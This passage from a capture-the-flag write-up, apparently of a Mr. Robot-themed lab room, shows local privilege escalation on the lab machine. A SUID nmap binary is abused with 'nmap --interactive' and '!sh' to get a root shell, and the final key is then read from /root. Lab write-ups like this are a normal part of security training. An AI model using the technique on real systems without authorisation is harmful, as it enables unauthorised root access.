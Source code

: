```
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
```

We found the needle in the haystack. What is a nmap binary doing with the suid bit set? Getting us to root is what it is doing. 

I open up [GTFO bins](https://gtfobins.github.io/gtfobins/nmap/) for nmap and see several methods. Starting from the top was probably a good idea.

```
robot@linux:/usr/local/bin$ nmap --interactive
nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
\# whoami
whoami
root
\# cd /root
cd /root
\# ls
ls
firstboot_done	key-3-of-3.txt
```

Now we can get the final keys from the root directory. 

Cool room! 

